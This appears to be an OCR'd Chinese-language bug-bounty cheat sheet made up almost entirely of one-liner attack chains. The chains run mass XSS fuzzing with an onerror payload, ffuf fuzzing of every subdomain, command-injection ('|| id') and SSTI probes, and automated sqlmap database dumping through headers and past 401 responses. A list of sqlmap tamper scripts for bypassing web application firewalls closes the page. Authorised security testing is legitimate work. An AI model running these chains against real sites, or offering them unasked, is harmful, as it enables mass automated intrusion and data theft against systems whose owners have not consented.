 * SSRF 工具  
* 信息网  
* 高里

---

## **Bug Bounty 提示和工具使用 \+ 单行提示：**

### **FUZZ XSS 的单行*侦察：***

$ amass enum \-brute \-passive \-d example.com | httpx \-silent \-status-code | tee domain.txt  
$ cat domain.txt | gauplus \-random-agent \-t 200 | gf xss | kxss | tee domain2.txt  
$ cat domain.txt | gauplus \-random-agent \-t 200 | gf xss | uro | qsreplace '"\>\<img src=x onerror=prompt('jin');\>' | freq  
---

### ***使用FUFF*** **ONE-LINER对所有子域名进行 FUZZ 处理：**

$ amass enum \-brute \-passive \-d http://example.com | sed 's\#\*.\# \#g' | httpx \-silent \-threads 10 | xargs \-I@ sh \-c 'ffuf \-w wordlist.txt \-u @/FUZZ \-mc 200'  
---

### ***使用FUFF*** **ONE-LINER进行命令注入：**

$ cat subdomains.txt | httpx \-silent \-status-code | gauplus \-random-agent \-t 200 | qsreplace “aaa%20%7C%7C%20id%3B%20x” \> fuzzing.txt  
$ ffuf \-ac \-u FUZZ \-w fuzzing.txt \-replay-proxy 127.0.0.1:8080  
// search for ”uid” in burp proxy intercept   
// You can use the same query for search SSTI in qsreplase add "{{7\*7}}" and search on burp for '49'  
---

### **SQL注入技巧：**

// \*\*MASS SQL injection\*\*  
$ amass enum \-brute \-passive \-d example.com | httpx \-silent \-status-code | tee domain.txt  
$ cat domain.txt | gauplus \-random-agent \-t 200 | gf sqli | tee domain2.txt  
$ sqlmap \-m domain2.txt \-dbs \--batch \--random-agent  
$ subfinder \-dL domains.txt | dnsx | waybackurl | uro  | grep "\\?" | head \-20 | httpx \-silent \> urls;sqlmap \-m urls \--batch \--random-agent \--level 1 | tee sqlmap.txt  
// \*\*SQL Injection headers\*\*  
$ sqlmap \-u "http://redacted.com" \--header="X-Forwarded-For: 1\*" \--dbs \--batch \--random-agent \--threads=10  
// \*\*SQL Injection bypass 401\*\*  
$ sqlmap \-u "http://redacted.com" \--dbs \--batch \--random-agent \--forms \--ignore-code=401

// PRO TIPS FOR BYPASSING WAF, add to SQLmap this tamper  
\--tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,ifnull2ifisnull,modsecurityversioned,space2comment,randomcase  
---
